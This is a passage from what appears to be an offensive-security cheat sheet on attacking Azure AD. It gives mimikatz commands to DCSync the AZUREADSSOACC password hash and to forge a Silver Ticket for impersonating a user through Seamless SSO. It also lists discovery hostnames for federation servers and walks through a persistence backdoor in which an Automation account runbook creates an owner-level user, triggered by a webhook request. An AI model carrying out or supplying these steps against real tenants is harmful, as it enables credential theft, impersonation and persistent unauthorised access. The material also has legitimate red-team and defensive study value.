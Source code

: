 Using [https://autologon.microsoftazuread-sso.com/](https://autologon.microsoftazuread-sso.com/) to convert Kerberos tickets to SAML and JWT for Office 365 & Azure

1. NTLM password hash of the AZUREADSSOACC account, e.g. `f9969e088b2c13d93833d0ce436c76dd`. 
    ```powershell
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```
2. AAD logon name of the user we want to impersonate, e.g. `elrond@contoso.com`. This is typically either his userPrincipalName or mail attribute from the on-prem AD.
3. SID of the user we want to impersonate, e.g. `S-1-5-21-2121516926-2695913149-3163778339-1234`.
4. Create the Silver Ticket and inject it into Kerberos cache:
    ```powershell
    mimikatz.exe "kerberos::golden /user:elrond
    /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
    /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
    /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```
5. Launch Mozilla Firefox
6. Go to about:config and set the `network.negotiate-auth.trusted-uris preference` to value `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
7. Navigate to any web application that is integrated with our AAD domain. Fill in the user name, while leaving the password field empty.


## Azure AD - ADFS Federation Server ~Cloud Kerberos

Discover Federation Servers
* adfs
* auth
* fs
* okta
* ping
* sso
* sts

OWA Version Discovery : autodiscover.domain.com

## Azure AD - Persistence via Automation accounts

* Create a new Automation Account
    * "Create Azure Run As account": Yes
* Import a new runbook that creates an AzureAD user with Owner permissions for the subscription*
    * Sample runbook for this Blog located here – https://github.com/NetSPI/MicroBurst
    * Publish the runbook
    * Add a webhook to the runbook
* Add the AzureAD module to the Automation account
    * Update the Azure Automation Modules
* Assign "User Administrator" and "Subscription Owner" rights to the automation account
* Eventually lose your access…
* Trigger the webhook with a post request to create the new user
    ```powershell
    $uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
    $AccountInfo  = @(@{RequestBody=@{Username="BlogDemoUser";Password="Password123"}})
    $body = ConvertTo-Json -InputObject $AccountInfo
    $response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
    ```

